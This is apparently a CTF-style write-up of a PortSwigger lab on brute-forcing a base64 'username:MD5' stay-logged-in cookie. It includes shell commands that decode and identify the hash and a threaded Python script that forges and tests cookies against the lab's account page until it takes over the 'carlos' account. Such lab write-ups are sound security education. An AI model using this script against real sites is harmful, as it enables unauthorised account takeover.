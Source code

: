 # Brute-forcing a stay-logged-in cookie

## Introduction

Welcome to my another writeup! In this Portswigger Labs [lab](https://portswigger.net/web-security/authentication/other-mechanisms/lab-brute-forcing-a-stay-logged-in-cookie), you'll learn: Brute-forcing a stay-logged-in cookie! Without further ado, let's dive in.

- Overall difficulty for me (From 1-10 stars): ★☆☆☆☆☆☆☆☆☆

## Background

This lab allows users to stay logged in even after they close their browser session. The cookie used to provide this functionality is vulnerable to brute-forcing.

To solve the lab, brute-force Carlos's cookie to gain access to his "My account" page.

- Your credentials: `wiener:peter`
- Victim's username: `carlos`
- [Candidate passwords](https://portswigger.net/web-security/authentication/auth-lab-passwords)

## Exploitation

**Login page:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/Authentication/Auth-9/images/%2020221222032100.png)

In here, we can see that there is a **`Stay logged in` checkbox**.

**Let's try to login as user `wiener`:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/Authentication/Auth-9/images/%2020221222032341.png)

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/Authentication/Auth-9/images/%2020221222032405.png)

When we click the `Log in` button, **it'll send a POST request to `/login`, with parameter `username`, `password`, and `stay-logged-in`.**

Also, it sets a new cookie called `stay-logged-in`, and **the value looks like is base64 encoded!**

**Let's try to base64 decode that:**
```
┌──(root🌸siunam)-[~/ctf/Portswigger-Labs/Authentication]
└─# echo "d2llbmVyOjUxZGMzMGRkYzQ3M2Q0M2E2MDExZTllYmJhNmNhNzcw" | base64 -d
wiener:51dc30ddc473d43a6011e9ebba6ca770
```

**Hmm... Looks like the format is `username:password_hash`.**

**And that hash seems to be MD5. Let's use `hash-identifier` to verify that:**
```
┌──(root🌸siunam)-[~/ctf/Portswigger-Labs/Authentication]
└─# hash-identifier '51dc30ddc473d43a6011e9ebba6ca770' 
[...]
Possible Hashs:
[+] MD5
[...]
```

Yep, it's MD5 hash.

How about cracking it?

**An online tool called [CrackStation](https://crackstation.net/) may help us:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/Authentication/Auth-9/images/%2020221222032829.png)

Nice! The MD5 hash is the `wiener`'s password!

**Armed with above information, we can try to brute force user `carlos` password!**

**To do so, I'll write a python script:**
```py
#!/usr/bin/env python3

import requests
from threading import Thread
from time import sleep
from hashlib import md5
from base64 import b64encode

def fetchPassword(filename):
    listStayloggedinCookie = list()

    with open(filename) as fd:
        for line in fd:
            password = line.strip().encode('utf-8')
            MD5Hash = md5(password).hexdigest()
            base64Encoded = b64encode(f'carlos:{MD5Hash}'.encode('utf-8'))

            listStayloggedinCookie.append(base64Encoded)

    return listStayloggedinCookie

def sendRequest(url, cookieValue):
    cookie = {
        'session': 'h826pmhwmUE0tzA8p8tCgCh41CmBJTrU',
        'stay-logged-in': cookieValue
    }

    myaccountRequestText = requests.get(url, cookies=cookie).text

    if 'Log in' not in myaccountRequestText:
        print(f'[+] Found cookie: {cookieValue}')

def main():
    url = 'https://0a080047046d799ec0a38150005b0090.web-security-academy.net/my-account'

    passwordFileName = './auth_password.txt'
    listStayloggedinCookie = fetchPassword(passwordFileName)

    for cookieValue in listStayloggedinCookie:
        thread = Thread(target=sendRequest, args=(url, cookieValue.decode('ascii')))
        thread.start()
        sleep(0.2)

if __name__ == '__main__':
    main()
```

```
┌──(root🌸siunam)-[~/ctf/Portswigger-Labs/Authentication]
└─# python3 enum_password_cookie.py
[+] Found cookie: Y2FybG9zOjBhY2Y0NTM5YTE0YjNhYTI3ZGVlYjRjYmRmNmU5ODlm
```

- Found `carlos` `stay-logged-in` cookie: `Y2FybG9zOjBhY2Y0NTM5YTE0YjNhYTI3ZGVlYjRjYmRmNmU5ODlm`

**Let's change our `stay-logged-in` cookie value to that:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/Authentication/Auth-9/images/%2020221222040631.png)

**Then go to `/my-account`:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/Authentication/Auth-9/images/%2020221222040705.png)

We're user `carlos`!

# What we've learned:

1. Brute-forcing a stay-logged-in cookie